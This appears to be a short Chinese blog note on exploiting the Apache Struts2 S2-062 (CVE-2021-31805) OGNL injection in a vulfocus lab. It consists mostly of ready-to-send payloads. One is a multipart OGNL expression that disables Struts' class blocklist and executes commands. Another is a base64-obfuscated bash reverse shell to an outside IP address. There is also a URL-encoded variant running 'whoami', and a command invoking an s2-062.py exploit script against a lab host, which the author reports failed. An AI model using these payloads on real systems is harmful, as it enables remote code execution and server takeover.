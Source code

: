 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134948380-591080907.png)

```plain
手工：
Content-Type: multipart/form-data; boundary=----1

------1
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------1--

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==}|{base64,-d}|{bash,-i}


Content-Type: application/x-www-form-urlencoded

id=%25%7b%28%23%69%6e%73%74%61%6e%63%65%6d%61%6e%61%67%65%72%3d%23%61%70%70%6c%69%63%61%74%69%6f%6e%5b%22%6f%72%67%2e%61%70%61%63%68%65%2e%74%6f%6d%63%61%74%2e%49%6e%73%74%61%6e%63%65%4d%61%6e%61%67%65%72%22%5d%29%2e%28%23%73%74%61%63%6b%3d%23%61%74%74%72%5b%22%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%75%74%69%6c%2e%56%61%6c%75%65%53%74%61%63%6b%2e%56%61%6c%75%65%53%74%61%63%6b%22%5d%29%2e%28%23%62%65%61%6e%3d%23%69%6e%73%74%61%6e%63%65%6d%61%6e%61%67%65%72%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%22%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%63%6f%6c%6c%65%63%74%69%6f%6e%73%2e%42%65%61%6e%4d%61%70%22%29%29%2e%28%23%62%65%61%6e%2e%73%65%74%42%65%61%6e%28%23%73%74%61%63%6b%29%29%2e%28%23%63%6f%6e%74%65%78%74%3d%23%62%65%61%6e%2e%67%65%74%28%22%63%6f%6e%74%65%78%74%22%29%29%2e%28%23%62%65%61%6e%2e%73%65%74%42%65%61%6e%28%23%63%6f%6e%74%65%78%74%29%29%2e%28%23%6d%61%63%63%3d%23%62%65%61%6e%2e%67%65%74%28%22%6d%65%6d%62%65%72%41%63%63%65%73%73%22%29%29%2e%28%23%62%65%61%6e%2e%73%65%74%42%65%61%6e%28%23%6d%61%63%63%29%29%2e%28%23%65%6d%70%74%79%73%65%74%3d%23%69%6e%73%74%61%6e%63%65%6d%61%6e%61%67%65%72%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%22%6a%61%76%61%2e%75%74%69%6c%2e%48%61%73%68%53%65%74%22%29%29%2e%28%23%62%65%61%6e%2e%70%75%74%28%22%65%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%22%2c%23%65%6d%70%74%79%73%65%74%29%29%2e%28%23%62%65%61%6e%2e%70%75%74%28%22%65%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%22%2c%23%65%6d%70%74%79%73%65%74%29%29%2e%28%23%61%72%67%6c%69%73%74%3d%23%69%6e%73%74%61%6e%63%65%6d%61%6e%61%67%65%72%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%22%6a%61%76%61%2e%75%74%69%6c%2e%41%72%72%61%79%4c%69%73%74%22%29%29%2e%28%23%61%72%67%6c%69%73%74%2e%61%64%64%28%22%77%68%6f%61%6d%69%22%29%29%2e%28%23%65%78%65%63%75%74%65%3d%23%69%6e%73%74%61%6e%63%65%6d%61%6e%61%67%65%72%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%29%29%2e%28%23%65%78%65%63%75%74%65%2e%65%78%65%63%28%23%61%72%67%6c%69%73%74%29%29%7d
3、cve_2021_31805
环境：http://vulfocus.io/#/dashboard
利用工具检测不出来，因为没有集成在里面。

执行：G:\python38\python.exe s2-062.py --url "123.58.236.76:32506/s2_062/index.action" --cmd "whoami"
但是失败了。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134954410-1759785067.png)
